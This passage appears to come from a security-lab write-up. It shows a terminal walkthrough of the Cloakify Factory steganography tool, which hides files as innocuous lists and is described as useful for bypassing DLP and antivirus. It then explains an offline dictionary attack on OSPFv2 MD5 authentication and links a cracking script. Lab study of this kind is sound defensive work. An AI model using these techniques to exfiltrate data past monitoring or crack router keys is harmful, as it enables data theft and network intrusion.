    drwx------ 2 kali kali  4096 May 27 17:03 ciphers
    -rw-r--r-- 1 kali kali 17465 May 27 17:03 cloakifyFactory.py
    -rw-r--r-- 1 kali kali  3019 May 27 17:03 cloakify.py
    -rw-r--r-- 1 kali kali  2079 May 27 17:03 decloakify.py
    drwx------ 2 kali kali  4096 May 27 17:03 DefCon24Slides
    -rw-r--r-- 1 kali kali  1078 May 27 17:03 LICENSE
    drwx------ 2 kali kali  4096 May 27 17:03 listsUnrandomized
    drwx------ 2 kali kali  4096 May 27 17:03 noiseTools
    -rw-r--r-- 1 kali kali   492 May 27 17:03 randomizeCipherExample.txt
    -rw-r--r-- 1 kali kali  5641 May 27 17:03 README_GETTING_STARTED.txt
    -rw-r--r-- 1 kali kali  6791 May 27 17:03 README.md
    -rw-r--r-- 1 kali kali   849 May 27 17:03 removeNoise.py
    drwx------ 2 kali kali  4096 May 27 17:03 screenshots
    kali@kali:~/Desktop/Cloakify-master$ 
    ```

    3. Make the Python scripts executable
    
    ```bash
    kali@kali:~/Desktop/Cloakify-master$ chmod +x *.py
    kali@kali:~/Desktop/Cloakify-master$ ls -Al
    total 76
    drwx------ 2 kali kali  4096 May 27 17:03 ciphers
    -rwxr-xr-x 1 kali kali 17465 May 27 17:03 cloakifyFactory.py
    -rwxr-xr-x 1 kali kali  3019 May 27 17:03 cloakify.py
    -rwxr-xr-x 1 kali kali  2079 May 27 17:03 decloakify.py
    drwx------ 2 kali kali  4096 May 27 17:03 DefCon24Slides
    -rw-r--r-- 1 kali kali  1078 May 27 17:03 LICENSE
    drwx------ 2 kali kali  4096 May 27 17:03 listsUnrandomized
    drwx------ 2 kali kali  4096 May 27 17:03 noiseTools
    -rw-r--r-- 1 kali kali   492 May 27 17:03 randomizeCipherExample.txt
    -rw-r--r-- 1 kali kali  5641 May 27 17:03 README_GETTING_STARTED.txt
    -rw-r--r-- 1 kali kali  6791 May 27 17:03 README.md
    -rwxr-xr-x 1 kali kali   849 May 27 17:03 removeNoise.py
    drwx------ 2 kali kali  4096 May 27 17:03 screenshots
    kali@kali:~/Desktop/Cloakify-master$ cd noiseTools/
    kali@kali:~/Desktop/Cloakify-master/noiseTools$ chmod +x *.py
    kali@kali:~/Desktop/Cloakify-master/noiseTools$ ls -Al
    total 16
    -rwxr-xr-x 1 kali kali 1261 May 27 17:03 prependEmoji.py
    -rwxr-xr-x 1 kali kali 1546 May 27 17:03 prependID.py
    -rwxr-xr-x 1 kali kali 1935 May 27 17:03 prependLatLonCoords.py
    -rwxr-xr-x 1 kali kali 2515 May 27 17:03 prependTimestamps.py
    kali@kali:~/Desktop/Cloakify-master/noiseTools$ cd ..
    kali@kali:~/Desktop/Cloakify-master$ 

    ```
    4. Start the tool.

    ```bash
    kali@kali:~/Desktop/Cloakify-master$ sudo python cloakifyFactory.py 
    [sudo] password for kali: 
      ____ _             _    _  __        ______         _                   
     / __ \ |           | |  |_|/ _|       |  ___|       | |                  
    | /  \/ | ___   __ _| | ___| |_ _   _  | |_ __ _  ___| |_ ___  _ __ _   _ 
    | |   | |/ _ \ / _` | |/ / |  _| | | | |  _/ _` |/ __| __/ _ \| '__| | | |
    | \__/\ | |_| | |_| |   <| | | | |_| | | || |_| | |__| || |_| | |  | |_| |
    \____/_|\___/ \__,_|_|\_\_|_|  \__, | \_| \__,_|\___|\__\___/|_|   \__, |
                                    __/ |                               __/ |
                                    |___/                               |___/ 

                "Hide & Exfiltrate Any Filetype in Plain Sight"

                            Written by TryCatchHCF
                        https://github.com/TryCatchHCF
    (\~---.
    /   (\-`-/)
    (      ' '  )         data.xls image.jpg  \     List of emoji, IP addresses,
    \ (  \_Y_/\    ImADolphin.exe backup.zip  -->  sports teams, desserts,
     ""\ \___//         LoadMe.war file.doc  /     beers, anything you imagine
        `w   "

    ====  Cloakify Factory Main Menu  ====

    1) Cloakify a File
    2) Decloakify a File
    3) Browse Ciphers
    4) Browse Noise Generators
    5) Help / Basic Usage
    6) About Cloakify Factory
    7) Exit

    Selection: 

    
    ``` 
    5. Type 5 to view the help for this tool.

    ```
    =====================  Using Cloakify Factory  =====================

    For background and full tutorial, see the presentation slides at
    https://github.com/TryCatchHCF/Cloakify

    WHAT IT DOES:

    Cloakify Factory transforms any filetype (e.g. .zip, .exe, .xls, etc.) into
    a list of harmless-looking strings. This lets you hide the file in plain sight,
    and transfer the file without triggering alerts. The fancy term for this is
    'text-based steganography', hiding data by making it look like other data.

    For example, you can transform a .zip file into a list made of Pokemon creatures
    or Top 100 Websites. You then transfer the cloaked file however you choose,
    and then decloak the exfiltrated file back into its original form. The ciphers
    are designed to appear like harmless / ignorable lists, though some (like MD5
    password hashes) are specifically meant as distracting bait.

    BASIC USE:

    Cloakify Factory will guide you through each step. Follow the prompts and
    it will show you the way.

    Cloakify a Payload:
    - Select 'Cloakify a File' (any filetype will work - zip, binaries, etc.)
    - Enter filename that you want to Cloakify (can be filename or filepath)
    - Enter filename that you want to save the cloaked file as
    - Select the cipher you want to use
    - Select a Noise Generator if desired
    - Preview cloaked file if you want to check the results
    - Transfer cloaked file via whatever method you prefer

    Decloakify a Payload:
    - Receive cloaked file via whatever method you prefer
    - Select 'Decloakify a File'
    - Enter filename of cloaked file (can be filename or filepath)
    - Enter filename to save decloaked file to
    - Preview cloaked file to review which Noise Generator and Cipher you used
    - If Noise Generator was used, select matching Generator to remove noise
    - Select the cipher used to cloak the file
    - Your decloaked file is ready to go!

    You can browse the ciphers and outputs of the Noise Generators to get
    an idea of how to cloak files for your own needs.

    Anyone using the same cipher can decloak your cloaked file, but you can
    randomize (scramble) the preinstalled ciphers. See 'randomizeCipherExample.txt'
    in the Cloakify directory for an example.

    NOTE: Cloakify is not a secure encryption scheme. It's vulnerable to
    frequency analysis attacks. Use the 'Add Noise' option to add entropy when
    cloaking a payload to help degrade frequency analysis attacks. Be sure to
    encrypt the file prior to cloaking if secrecy is needed.

    ====  Cloakify Factory Main Menu  ====

    1) Cloakify a File
    2) Decloakify a File
    3) Browse Ciphers
    4) Browse Noise Generators
    5) Help / Basic Usage
    6) About Cloakify Factory
    7) Exit

    Selection: 
    ```
    6. In this example the file "secret-basline.pcapng" will be hidden.

    We also use the noise option to add entropy when cloaking a payload to help degrade frequency analysis attacks. 

    ```
    Selection: 1

    ====  Cloakify a File  ====

    Enter filename to cloak (e.g. ImADolphin.exe or /foo/bar.zip): /home/kali/Desktop/secret-baseline.pcapng

    Save cloaked data to filename (default: 'tempList.txt'): /home/kali/Desktop/Mybeers.txt

    Ciphers:

    1 - hashesMD5
    2 - amphibians
    3 - pokemonGo
    4 - dessertsArabic
    5 - worldFootballTeams
    6 - evadeAV
    7 - dessertsHindi
    8 - statusCodes
    9 - rickrollYoutube
    10 - starTrek
    11 - dessertsPersian
    12 - topWebsites
    13 - dessertsRussian
    14 - belgianBeers
    15 - dessertsChinese
    16 - desserts
    17 - geoCoordsWorldCapitals
    18 - geocache
    19 - ipAddressesTop100
    20 - emoji
    21 - skiResorts
    22 - dessertsThai
    23 - worldBeaches
    24 - dessertsSwedishChef

    Enter cipher #: 14

    Add noise to cloaked file? (y/n): y

    Noise Generators:

    1 - prependEmoji.py
    2 - prependLatLonCoords.py
    3 - prependTimestamps.py
    4 - prependID.py

    Enter noise generator #: 4

    Creating cloaked file using cipher: belgianBeers
    Adding noise to cloaked file using noise generator: prependID.py

    Cloaked file saved to: /home/kali/Desktop/Mybeers.txt

    Preview cloaked file? (y/n): y

    Tag: KIe9 Chimay Wit
    Tag: YTgE Floris Framboise
    Tag: 2xLZ 't Smisje Calva Reserva
    Tag: f2Ix Saison de Dottignies
    Tag: 7MSW Chimay Wit
    Tag: AGPn Molse Tripel
    Tag: GAcX Floris Framboise
    Tag: XwoP Sint-Gummarus Tripel
    Tag: jFJw Sint-Gummarus Tripel
    Tag: lAJd Sint-Gummarus Tripel
    Tag: cjIi Steendonk
    Tag: 1PDP Saison de Dottignies
    Tag: MeyS Pikkeling Tripel
    Tag: DGok Chimay Wit
    Tag: SAth Geuze Mariage Parfait
    Tag: itmt Nondedju
    Tag: AOZh Sint-Gummarus Tripel
    Tag: vDJx Den Twaalf
    Tag: s3oq Sint-Gummarus Tripel
    Tag: thSB Sint-Gummarus Tripel

    Press return to continue... 

    ====  Cloakify Factory Main Menu  ====

    1) Cloakify a File
    2) Decloakify a File
    3) Browse Ciphers
    4) Browse Noise Generators
    5) Help / Basic Usage
    6) About Cloakify Factory
    7) Exit

    Selection: 
    ``` 
    7. Read the file "Mybeers.txt"

    ```
    kali@kali:~/Desktop/Cloakify-master$ cd ..
    kali@kali:~/Desktop$ cat Mybeers.txt | more
    Tag: KIe9 Chimay Wit
    Tag: YTgE Floris Framboise
    Tag: 2xLZ 't Smisje Calva Reserva
    Tag: f2Ix Saison de Dottignies
    Tag: 7MSW Chimay Wit
    Tag: AGPn Molse Tripel
    Tag: GAcX Floris Framboise
    Tag: XwoP Sint-Gummarus Tripel
    Tag: jFJw Sint-Gummarus Tripel
    Tag: lAJd Sint-Gummarus Tripel
    Tag: cjIi Steendonk
    Tag: 1PDP Saison de Dottignies
    Tag: MeyS Pikkeling Tripel
    Tag: DGok Chimay Wit
    Tag: SAth Geuze Mariage Parfait
    Tag: itmt Nondedju
    Tag: AOZh Sint-Gummarus Tripel
    Tag: vDJx Den Twaalf
    Tag: s3oq Sint-Gummarus Tripel
    Tag: thSB Sint-Gummarus Tripel
    Tag: aLLB Sint-Gummarus Tripel
    Tag: eAjV Pikkeling Tripel
    Tag: UP8Y Vossen met de Meynen Blond
    Tag: xS7c Vossen met de Meynen Blond
    Tag: tGjY Vossen met de Meynen Blond
    Tag: tUBP Vossen met de Meynen Blond
    Tag: Bx8i Vossen met de Meynen Blond
    Tag: c2zq Vossen met de Meynen Blond
    Tag: VuJQ Vossen met de Meynen Blond
    Tag: Jj3Q Vossen met de Meynen Blond
    Tag: EPXs Vossen met de Meynen Blond
    Tag: FpPt Vossen met de Meynen Blond
    Tag: 9hfh Sint-Gummarus Tripel
    Tag: 7Tjf Floris Framboise
    Tag: DjoY Sint-Gummarus Tripel
    Tag: 1n5J Holger
    Tag: CVK7 Sint-Gummarus Tripel
    Tag: ovLk Liefmans Frambozenbier
    Tag: YQ2E Morpheus Tripel
    Tag: 20pn Limerick
    Tag: 0kXk La Namuroise
    Tag: V8fS Ypres
    Tag: 6RSh La Rulles Blonde
    Tag: FN6A Geuze Mariage Parfait
    Tag: OluB Hoppe
    Tag: f0Af Louwaege Faro
    Tag: aIhF Affligem 950 Cuvee
    Tag: pNgk Waterloo Tripel 7 Blond
    Tag: bTAf Affligem 950 Cuvee
    Tag: TOQ7 Liefmans Frambozenbier
    Tag: UGy5 Saison de Dottignies
    Tag: vj89 Buffalo Bitter
    Tag: JR3v Lesage Dubbel

    kali@kali:~/Desktop$ 
    ``` 
    8. Unhide the file "secret-basline.pcapng"

    ```
    kali@kali:~/Desktop/Cloakify-master$ sudo python cloakifyFactory.py 
    [sudo] password for kali: 
      ____ _             _    _  __        ______         _                   
     / __ \ |           | |  |_|/ _|       |  ___|       | |                  
    | /  \/ | ___   __ _| | ___| |_ _   _  | |_ __ _  ___| |_ ___  _ __ _   _ 
    | |   | |/ _ \ / _` | |/ / |  _| | | | |  _/ _` |/ __| __/ _ \| '__| | | |
    | \__/\ | |_| | |_| |   <| | | | |_| | | || |_| | |__| || |_| | |  | |_| |
    \____/_|\___/ \__,_|_|\_\_|_|  \__, | \_| \__,_|\___|\__\___/|_|   \__, |
                                    __/ |                               __/ |
                                    |___/                               |___/ 

                "Hide & Exfiltrate Any Filetype in Plain Sight"

                            Written by TryCatchHCF
                        https://github.com/TryCatchHCF
    (\~---.
    /   (\-`-/)
    (      ' '  )         data.xls image.jpg  \     List of emoji, IP addresses,
    \ (  \_Y_/\    ImADolphin.exe backup.zip  -->  sports teams, desserts,
     ""\ \___//         LoadMe.war file.doc  /     beers, anything you imagine
        `w   "

    ====  Cloakify Factory Main Menu  ====

    1) Cloakify a File
    2) Decloakify a File
    3) Browse Ciphers
    4) Browse Noise Generators
    5) Help / Basic Usage
    6) About Cloakify Factory
    7) Exit

    Selection: 2

    ====  Decloakify a Cloaked File  ====

    Enter filename to decloakify (e.g. /foo/bar/MyBoringList.txt): /home/kali/Desktop/Mybeers.txt

    Save decloaked data to filename (default: 'decloaked.file'): /home/kali/Desktop/baseline.pcapng       

    Preview cloaked file? (y/n default=n): y

    Tag: KIe9 Chimay Wit
    Tag: YTgE Floris Framboise
    Tag: 2xLZ 't Smisje Calva Reserva
    Tag: f2Ix Saison de Dottignies
    Tag: 7MSW Chimay Wit
    Tag: AGPn Molse Tripel
    Tag: GAcX Floris Framboise
    Tag: XwoP Sint-Gummarus Tripel
    Tag: jFJw Sint-Gummarus Tripel
    Tag: lAJd Sint-Gummarus Tripel
    Tag: cjIi Steendonk
    Tag: 1PDP Saison de Dottignies
    Tag: MeyS Pikkeling Tripel
    Tag: DGok Chimay Wit
    Tag: SAth Geuze Mariage Parfait
    Tag: itmt Nondedju
    Tag: AOZh Sint-Gummarus Tripel
    Tag: vDJx Den Twaalf
    Tag: s3oq Sint-Gummarus Tripel
    Tag: thSB Sint-Gummarus Tripel

    Was noise added to the cloaked file? (y/n default=n): y

    Noise Generators:

    1 - prependEmoji.py
    2 - prependLatLonCoords.py
    3 - prependTimestamps.py
    4 - prependID.py

    Enter noise generator #: 4
    Removing noise from noise generator: prependID.py

    Ciphers:

    1 - hashesMD5
    2 - amphibians
    3 - pokemonGo
    4 - dessertsArabic
    5 - worldFootballTeams
    6 - evadeAV
    7 - dessertsHindi
    8 - statusCodes
    9 - rickrollYoutube
    10 - starTrek
    11 - dessertsPersian
    12 - topWebsites
    13 - dessertsRussian
    14 - belgianBeers
    15 - dessertsChinese
    16 - desserts
    17 - geoCoordsWorldCapitals
    18 - geocache
    19 - ipAddressesTop100
    20 - emoji
    21 - skiResorts
    22 - dessertsThai
    23 - worldBeaches
    24 - dessertsSwedishChef

    Enter cipher #: 14

    Decloaking file using cipher:  belgianBeers

    Decloaked file decloakTempFile.txt , saved to /home/kali/Desktop/baseline.pcapng
    Press return to continue... 

    ====  Cloakify Factory Main Menu  ====

    1) Cloakify a File
    2) Decloakify a File
    3) Browse Ciphers
    4) Browse Noise Generators
    5) Help / Basic Usage
    6) About Cloakify Factory
    7) Exit

    Selection: 

    ```
    8. Open the file "basline.pcapng" in Wireshark.

     
    

6. Conclusion

    *  This tool is very useful in bypassing Data Loss Prevention (DLP) and antivirus detection.

## OSPFv2 authentication

1. Goal
    * Open Shortest Path First authentication is employed to prevent rogue routers from participating in the routing domain. Several authentication types are available in Open Shortest Path Firstv2. However, not all of these mechanisms provide an equivalent level of cybersecurity. 

2. Used hardware
    * 1 laptop with Kali Linux
    * 3 Cisco routers

3. Used software
    * Kali Linux (2026.1)

4. Setup
    
    

5. Getting started

    1. On Cisco routers, Open Shortest Path Firstv2 supports three authentication modes, each offering a different level of security.

    **Type 0: Null Authentication**
    No authentication information is exchanged. Any router configured for the same OSPF area and network parameters can form an adjacency. This mode provides no protection against unauthorized or malicious routers and is therefore unsuitable for security-sensitive environments.

    

    **Type 1: Simple Password Authentication**
    A plaintext password is included in every OSPF packet. Neighboring routers must be configured with the same password to establish adjacency. While this method provides basic access control, it is inherently insecure because the password is transmitted in clear text and can be easily intercepted through packet capture.

    

    **Type 2: Cryptographic Authentication**
    Instead of transmitting the authentication key itself, the router appends a cryptographic hash (traditionally using MD5) to each OSPF packet. The receiving router independently computes the hash using its locally configured key and verifies packet integrity and authenticity. If the computed and received hashes match, the packet is accepted.

    

    2. Because traditional OSPFv2 cryptographic authentication often relies on MD5, an attacker who has captured authenticated packets may attempt an offline dictionary or brute-force attack against weak or predictable passwords. The feasibility of such an attack depends primarily on the strength, length, and randomness of the configured secret.

    3. Compromising Open Shortest Path Firstv2 cryptographic authentication (Type 2) typically involves two distinct stages.

    **Extraction of the Authentication Digest**
    When OSPFv2 Type 2 authentication is used, each OSPF packet carries a cryptographic digest, traditionally an MD5 hash, in its authentication field. This digest is computed over the OSPF packet contents combined with the shared secret. By capturing OSPF traffic on the network, an attacker can readily extract this digest from authenticated packets. Importantly, the shared secret itself is never transmitted; only the resulting hash value is observable.

    **Offline Dictionary or Brute-Force Attack**
    Once the digest has been obtained, an attacker can perform an offline password-recovery attack. This involves repeatedly guessing candidate keys, recomputing the expected MD5 digest using the captured packet data and each candidate key, and comparing the result with the captured digest. If a match is found, the correct shared secret has been identified. Because this process is conducted offline, it does not generate detectable network activity and is limited only by available computational resources and the strength of the chosen password.

    4. The success of this attack can be demonstrated using an AI-generated Python script together with a dictionary file containing candidate shared secrets.

    

    The script can be downloaded [here](https://www.tomcordemans.net/OSPF-crack.py). 

6. Conclusion

    *  The practicality of this attack depends largely on the entropy of the configured shared secret. Weak, short, or dictionary-based keys may be recovered quickly, whereas long, random, high-entropy keys are significantly more resistant to such attacks.
